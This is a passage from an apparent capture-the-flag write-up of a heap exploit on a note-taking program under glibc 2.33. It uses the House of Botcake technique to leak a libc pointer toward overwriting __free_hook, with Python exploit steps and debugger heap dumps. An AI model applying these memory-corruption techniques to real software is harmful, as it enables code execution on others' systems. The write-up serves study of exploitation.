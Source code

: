 Luckily for us `__free_hook` still exists in `libc 2.33`.
```
gef➤  p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7ffff7face48 <__free_hook>
```

Let's use [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.33/house_of_botcake.c) to get a libc pointer so we can find `__free_hook`.

This basically works by filling up `t-cache` of a certain size and allocating a few more chunks of the same size to give us
an unsorted bin chunk with a reference to libc.

(I followed house_of_botcake.c fairly closely with no issues.)
```python
for i in range(7):
    add_note(i, b"HELLO", big=True)
add_note(7, b"prev", big=True)
add_note(8, b"a", big=True)
add_note(9, b"small")

for i in range(7):
    delete_note(i)

delete_note(8)
delete_note(7)
print_note(8)
add_note(10, b"AAAA", big=True)
delete_note(8)
```

Unfortunately, the pointer to the `unsorted-bin` chunk isn't added to our list of accessable pointers.
Now `note #8` and `note #7` point to somwhere inside the `unsorted-bin` chunk.

We can see the `unsorted-bin` as the last chunk and `note #9` just above it.
```
Chunk(addr=0x55ecd22bb2a0, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb2a0     bb 22 cd 5e 05 00 00 00 10 b0 2b d2 ec 55 00 00    .".^......+..U..]

Chunk(addr=0x55ecd22bb330, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb330     1b 90 e6 8c e9 55 00 00 10 b0 2b d2 ec 55 00 00    .....U....+..U..]

Chunk(addr=0x55ecd22bb3c0, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb3c0     8b 91 e6 8c e9 55 00 00 10 b0 2b d2 ec 55 00 00    .....U....+..U..]

Chunk(addr=0x55ecd22bb450, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb450     7b 91 e6 8c e9 55 00 00 10 b0 2b d2 ec 55 00 00    {....U....+..U..]

Chunk(addr=0x55ecd22bb4e0, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb4e0     eb 96 e6 8c e9 55 00 00 10 b0 2b d2 ec 55 00 00    .....U....+..U..]

Chunk(addr=0x55ecd22bb570, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb570     5b 96 e6 8c e9 55 00 00 10 b0 2b d2 ec 55 00 00    [....U....+..U..]

Chunk(addr=0x55ecd22bb600, size=0x90, flags=PREV_INUSE)
    [0x000055ecd22bb600     41 41 41 41 0a 00 00 00 00 00 00 00 00 00 00 00    AAAA............]

Chunk(addr=0x55ecd22bb690, size=0x70, flags=PREV_INUSE)  //Note #9
    [0x000055ecd22bb690     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]

Chunk(addr=0x55ecd22bb700, size=0xb0, flags=PREV_INUSE)  //unsorted bin
    [0x000055ecd22bb700     00 bc 54 5c b2 7f 00 00 00 bc 54 5c b2 7f 00 00    ..T\......T\....]
```
